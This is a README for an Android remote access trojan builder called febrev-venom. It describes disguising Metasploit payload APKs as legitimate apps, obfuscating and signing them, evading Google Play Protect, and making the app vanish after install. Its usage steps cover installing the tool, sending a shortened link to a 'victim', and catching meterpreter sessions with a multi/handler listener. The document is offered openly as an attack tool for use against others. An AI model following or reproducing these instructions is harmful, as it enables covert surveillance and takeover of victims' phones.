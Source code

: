 # NEW VERSION 3.0
# Febrev-venom updated to version 3.0
# Added a new functionality found by me i.e, it will disappear itself after installation 

FEBREV venom(also called febrev-droidspy) is a tool to create android RATs through metasploit,changes the icon,package name,obfuscates the apk,makes it look like a legit app , signs the RAT apk ,  and send it to the victim via a link url over the INTERNET
IT CAN BYPASS GOOGLE PLAY PROTECT.............
ALSO THE APP CREATED BY MY TOOL CAN AUTOMATICALLY DISAPPEAR AFTER INSTALLING


**must run as root
**must run in debian-based linux distro like kali
#################################################################################################################
 USAGE:
   
   **come into the febrev-venom directory 
  
   chmod +x * 
   
   python3 installer.py
   
   ** now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    **come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 #use the generated link(the best) + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
 **OR simply use the resource script generated automatically by the tool
   -> msfconsole -r <appname_listener.rc>
 # You can shorten the URL by :
    1.open another terminal without closing the current one
    2.copy the URL from the current terminal and type -> php shorturl.php <the copied url>
 
 
 happy hacking.....!!!!!
 
 ################################################################################################################
   

